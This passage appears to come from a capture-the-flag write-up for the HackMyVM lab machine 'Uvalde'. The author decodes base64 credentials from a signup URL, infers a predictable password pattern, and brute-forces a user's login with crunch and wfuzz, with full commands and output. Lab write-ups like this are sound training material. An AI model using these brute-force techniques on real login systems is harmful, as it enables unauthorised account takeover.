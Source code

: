 after creating an account, got a base64 encoded text in the url link. copied it 

```
┌──(n16hth4wk👽n16hth4wk-sec)-[~/Documents/Hackmyvm/Uvalde]
└─$ echo "dXNlcm5hbWU9bmlnaHRoYXdrJnBhc3N3b3JkPW5pZ2h0aGF3azIwMjNANjA4MQ==" | base64 -d 
username=nighthawk&password=nighthawk2023@6081 
```
decoded the text and we got to see creates the accout success but it automatically gives us a password. 🤔 let's login

![image](https://user-images.githubusercontent.com/87468669/221417115-e9ae52d0-9493-4668-b0b9-be059b056a8f.png)

logged , got a page under construction. 🤔... let's try create another account and see it will assign the same password for us.

```
┌──(n16hth4wk👽n16hth4wk-sec)-[~/Documents/Hackmyvm/Uvalde]
└─$ echo "dXNlcm5hbWU9aGFja2VyJnBhc3N3b3JkPWhhY2tlcjIwMjNAMTEzMA==" | base64 -d
username=hacker&password=hacker2023@1130
```
cool we can see it takes the username supplid , 2023, @, random 4 digit number `(usrname2023@random 4 digit)` and assign it as our password. let's try fuzz the random number to get the password for user `matthew`, since it might be `matthew2023@XXXX`. 

```
┌──(n16hth4wk👽n16hth4wk-sec)-[~/Documents/Hackmyvm/Uvalde]
└─$ crunch 4 4 1234567890 -o numb.txt                                                                         
Crunch will now generate the following amount of data: 50000 bytes
0 MB
0 GB
0 TB
0 PB
Crunch will now generate the following number of lines: 10000 

crunch: 100% completed generating output
```
first generate random 4 digit number using crunch. now let run ffuf to fuzz the number.

```
┌──(n16hth4wk👽n16hth4wk-sec)-[~/Documents/Hackmyvm/Uvalde]
└─$ wfuzz -X POST -d "username=matthew&password=matthew2023@FUZZ" -w numb.txt -u http://192.168.0.102/login.php  --hl 60
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://192.168.0.102/login.php
Total requests: 10000

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                              
=====================================================================

000000444:   302        0 L      0 W        0 Ch        "1554"                                                                                               

Total time: 21.52361
Processed Requests: 10000
Filtered Requests: 9999
Requests/sec.: 464.6060
```